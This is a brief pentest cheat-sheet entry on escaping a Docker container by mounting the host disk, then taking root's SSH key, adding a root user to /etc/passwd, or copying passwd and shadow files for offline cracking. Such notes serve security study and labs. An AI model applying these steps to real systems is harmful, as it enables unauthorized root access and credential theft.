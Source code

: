 # Docker 
----------

https://flast101.github.io/docker-privesc/

## Container Escape
- Check for sd disks in /dev using linpeas or deepce or the command mount
- Mount the file system sda1 (as root)
```bash
mkdir /mnt/sda2
mount /dev/sda2 /mnt/sda2
ls /mnt/sda2 #copies over the entire file system
```

Get the id_rsa of the root and ssh into the machine.
Or add a new user with root privileges to /etc/passwd 
Or copy over etc/passwd and shadow to crack it locally

